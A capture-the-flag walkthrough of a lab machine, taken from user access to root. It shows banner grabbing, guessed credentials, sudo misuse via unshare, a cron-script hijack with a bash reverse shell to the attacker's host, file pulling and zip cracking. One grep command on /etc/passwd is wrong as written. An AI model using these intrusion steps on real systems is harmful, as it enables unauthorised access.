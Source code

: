 This one's a little messed up. There are 2 flags here user and root.

Doing a nmap scan we see there are 3 ports http/80, http/8000, ssh/22.

Now we can try to scan http/80 for something but that will give us nothing. It is on big rabbit hole. But http/8000 is ajenti login portal.

There is no way of enumerating users and passwords here so we have to exploit this using ssh port.

This requires something called banner grabbing. For that we can just try and login as any user. 

__ssh target_ip__ --> Here in the banner we see username format for different users.

```
Hi !!! THIS MESSAGE IS ONLY VISIBLE IN OUR NETWORK :) 

   ___      _        ___                    
  / __|__ _(_)_ _   | _ \_____ __ _____ _ _ 
 | (_ / _` | | ' \  |  _/ _ \ V  V / -_) '_|
  \___\__,_|_|_||_| |_| \___/\_/\_/\___|_|  
                                            

I HOPE EVERYONE KNOW THE JOINING ID CAUSE THAT IS YOUR USERNAME : ie : employee1 employee2 ... ... ... so on ;)

I already told the format of password of everyone in the yesterday's metting.

Now i have configured everything. My request is to everyone to Complete assignments on time 

btw one of my employee have sudo powers because he is my favourite 

NOTE : "This message will automatically removed after 2 days" 
                                                                - BOSS
```        
We try logging using employee1:employee1. And we're in. So probably all users have username as their password.

Also the line _one of my employee have sudo powers because he is my favourite_ is interesting.

We can write a script to login as employees and run the command __sudo -l__ and scout the output.

After running the script for sometime we get that employee64 can run sudo commands as user programmer.

Logging in as him still we can't find anything significant in all his directories. So we download __pspy64__ onto the server and run that to see if there are any cronjobs running in the background. 

We see that there is a script running in the background in programmer dir. So we need to login as him to access it to change it.

__sudo -u programmer /usr/bin/unshare__ --> Now we are logged as programmer so we can change the script running in the background.

```
2020/12/17 10:12:02 CMD: UID=1183 PID=3796   | /bin/bash /media/programmer/scripts/backup.sh 
```
We see that this script runs as UID=1183 which is not the UID of programmer. We can find out who it is by running a simple command.

__cat /etc/passwd | grep -e "UID=1183"__

We see that user 1183 is vanshal. so we can get a shell as vanshal if we add a bash reverse shell script to the backup.sh file and listen on another port.

__bash -i >& /dev/tcp/host_ip/port 0>&1__ --> added in backup.sh

Note: we can't use nano because it's not on this machine we have to use vim editor.

___After we get a shell we got the first flag in local.txt.___

We can run python2 on this so let's start a http server and download the secret.zip file onto our system.

__python -m SimpleHTTPServer 4445__ --> Port number can be anything that's not already in use by the system.

After downloading the file we can [crack the password using john the ripper](https://dfir.science/2014/07/how-to-cracking-zip-and-rar-protected.html).

We find that __password to zip file is 81237900__. Opening that we get a very secure password in Mypassword.txt file.

This might be the password for that ajenti login running on port 8000. And yes, it is.

__root: contents of Mypasswords.txt__

Now here on the website we see a tab saying terminal. Going to it we see we have a root terminal shell.

___We can change into the root directory and read the proof.txt___

And That's it.
